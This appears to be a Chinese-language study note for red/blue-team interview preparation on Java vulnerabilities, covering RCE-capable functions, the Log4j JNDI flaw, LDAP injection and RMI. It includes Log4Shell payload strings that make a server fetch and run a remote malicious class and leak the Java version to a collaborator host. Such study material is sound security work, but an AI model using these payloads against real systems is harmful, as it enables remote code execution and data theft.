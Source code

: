 # hvv_Java


HVV专题--java类漏洞



# java

### 代码审计漏洞

[java代码审计 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/7945#toc-15)

### java实现RCE的函数

Runtime.getRuntime.exec("cmd")

new ProcessBuilder().start("cmd")

### Log4J漏洞有深入了解吗？

再正常的log处理过程中会对`${`内部字符进行检查,如果以但匹配到类似于表达式结构的字符串就会触发替换机制,将表达式的内容替换成为表达式解析后的内容,而不是表达式本身,从而导致攻击者构造符合要求的表达式供系统执行,漏洞成因,

**特征:**在打印日志的时候,如果日志内容包含关键字${,那么攻击者就能把关键字包含的内容当作变量来替换成任何的攻击命令

```
${jndi:ldap://xxx.xxx.xxx.xxx/exp}
第一步：向目标发送指定 payload，目标对 payload 进行解析执行，然后会通过 ldap 链接远程服务，当 ldap 服务收到请求之后，将请求进行重定向到恶意 java class 的地址

第二步：目标服务器收到重定向请求之后，下载恶意 class 并执行其中的代码，从而执行系统命令
```

```
${jndi:ldap://${sys:java.version}.collaborator.com}
```

![image-20230723184917478](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230723184917478.png)

#### ladp注入原理

1.使用了lookup
2.lookup的参数动态可控
3.构建一个ldap服务，指定远程加载地址为恶意代码地址
4.在客户端访问ldap服务不存在的对象
5.客户端下载恶意代码到本地并执行

#### rmi具体过程

 远端方法调用（Remote Method Invocation）

![image-20230723191351812](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230723191351812.png)

1. Server端监听一个端口，这个端口是JVM随机选择的；
2. Client端并不知道Server远程对象的通信地址和端口，但是Stub中包含了这些信息，并封装了底层网络操作；
3. Client端可以调用Stub上的方法；
4. Stub连接到Server端监听的通信端口并提交参数；
5. 远程Server端上执行具体的方法，并返回结果给Stub；
6. Stub返回执行结果给Client端，从Client看来就好像是Stub在本地执行了这个方法一样；
